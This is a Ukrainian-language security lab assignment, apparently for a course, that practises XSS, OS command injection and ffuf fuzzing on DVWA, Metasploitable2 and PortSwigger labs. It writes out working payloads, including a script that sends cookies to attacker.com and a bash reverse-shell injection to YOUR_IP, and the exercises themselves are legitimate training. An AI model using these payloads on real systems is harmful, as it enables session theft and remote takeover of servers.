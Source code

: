 # 🛡️ Lab 3: XSS, RCE, ffuf та словники (PayloadsAllTheThings, SecLists)

## 📘 Середовище для виконання
- **Metasploitable2** + **DVWA (Damn Vulnerable Web Application)**
- **PortSwigger Web Security Academy** (https://portswigger.net/web-security)

---

## 📚 Теми

### 1. Cross-Site Scripting (XSS)

#### 🎯 Завдання на DVWA:
1. Перейдіть до розділу **DVWA → XSS (Reflected)**:
   - Використайте прості payload-и: `<script>alert(1)</script>`.
   - Обхід фільтрів: `"><script>alert('XSS')</script>`, `javascript:alert(1)`.

2. Перейдіть до **XSS (Stored)**:
   - Спробуйте вставити XSS у повідомлення коментарів або гостьову книгу.
   - Тестування зловмисного JavaScript для крадіжки cookie:
     ```html
     <script>new Image().src="http://attacker.com/log?c="+document.cookie</script>
     ```
   - Результат - отримані cookie у себе на webhook.

#### 🧪 PortSwigger Labs:
- [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)
- [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)
- Спробуйте пройти хоча б **3 лаби по XSS**.

---

### 2. Remote Code Execution (RCE)

#### 🎯 Завдання на DVWA:
1. Перейдіть до **DVWA → Command Injection**:
   - Введіть `127.0.0.1; whoami` і досліджуйте вивід.
   - Інші корисні команди: `id`, `uname -a`, `cat /etc/passwd`.
   - Спробуйте підключення зворотного шелу:
     ```bash
     127.0.0.1; bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
     ```

2. Підніміть слухач:
   ```bash
   nc -lvnp 4444
   ```

#### 🧪 PortSwigger Labs:
- [OS command injection](https://portswigger.net/web-security/os-command-injection)

---

### 3. Ffuf (Fuzz Faster U Fool)

#### 🛠 Завдання:
1. Проскануйте доступні директорії:
   ```bash
   ffuf -u http://<DVWA-IP>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
   ```

2. Сканування параметрів:
   ```bash
   ffuf -u http://<DVWA-IP>/index.php?FUZZ=test -w /usr/share/seclists/Discovery/Web-Content/{}.txt
   ```
---

### 4. Словники: PayloadsAllTheThings + SecLists

#### 📁 Практика:
- Вивчіть структуру словників у:
  - `Seclists/`
  - `PayloadsAllTheThings`

- Використайте наступні словники:
  - `XSS`: `/PayloadsAllTheThings/XSS Injection/`
  - `RCE`: `/PayloadsAllTheThings/Command Injection/`
  - `Brute-force`: `/SecLists/Passwords/Leaked-Databases/rockyou.txt`

---

## 📌 Звітність:
Для кожного завдання:
- Надішліть скріншоти payload'ів та результатів.
- Поясніть, що саме відбулось.
- Якщо були труднощі — коротко опишіть їх.

---

✅ **Рекомендація**: Виконуйте завдання в режимі **Medium** або **High** складності DVWA, якщо вже ознайомлені з логікою на Low.


